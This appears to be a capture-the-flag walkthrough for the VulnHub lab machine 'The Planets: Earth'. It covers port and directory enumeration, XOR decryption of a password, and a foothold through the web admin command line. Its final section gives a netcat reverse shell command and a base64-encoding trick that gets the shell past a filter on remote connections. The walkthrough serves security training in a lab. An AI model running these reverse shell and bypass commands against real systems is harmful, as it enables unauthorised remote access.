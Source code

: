 Link: [The Planets: Earth](https://www.vulnhub.com/entry/the-planets-earth,755/)

[Walkthrough (Video) by Techno Science](https://youtu.be/e9de7AK0i2s):
Walkthrough (Text): 

## Enumeration
Interface name: `ifconfig`

Get target IP: `sudo netdiscover -i eth1` - Interface name

Network Scan for Open Ports: `nmap -sV -sC -v -T4 192.168.56.103 `
No. of open ports: 3 
2 Host names

`sudo nano /etc/hosts`
Paste host name with IP address
`192.168.56.193 earth.local terratest.earth.local`
CTRL+X+ENTER  

Open browser
`earth.local`

Directory Busting - GoBuster
`gobuster dir -u https://earth.local/ -w /usr/share/wordlist/dirb/common.txt` - `-u` is for target URL, `-w` is to specify word list
- Found admin page 
earth.local/admin -> Login 
- Find credentials 
- Second DNS: Test site, give credentials
https://terratest.earth.local -> Accept risk
- Brute force directory using GoBuster
`gobuster dir -u https://terratest.earth.local/ -k -w /usr/share/wordlist/dirb/common.txt`
- robots.txt
  - testingnotes.txt -> XOR encryption as algorithm
 
 ## Decrypting:
 - Cyberchef download on google, save file
 ![image](https://user-images.githubusercontent.com/80029462/235673037-efdf02fe-ab4d-4a44-aff9-608f59213e31.png)
Use Wired Connection 1 if server error
- After download change back to usual connection
- Extract file, click on HTNL
- Open test data, decrypt them to XOR, drag drop hex and XOR.
- Key: update from testdata.txt, set to UTF8
- Copy and paste one by one
  - Get repeating string = Password for user 'terra'


## Foothold
Login with password
CLI command line interface 
`whoami`
- Find user flag: `ls /var/earth_web/user_flag.txt`
Command line: (Flag)

In terminal:
`ifconfig` to get machine IP
`nc -lvnp 4444` - listening port 

Remote command line shell using Netcat:
`nc -e /bin/bash machine IP (from above) 4444`

Remove connections are forbidden
- bypass by converting it to decimal notation / encode command in base64

In terminal:
`echo nc -e /bin/bash machine IP (from above) 4444 | base64`
- Copy output and run with `output | base64 -d | bash`
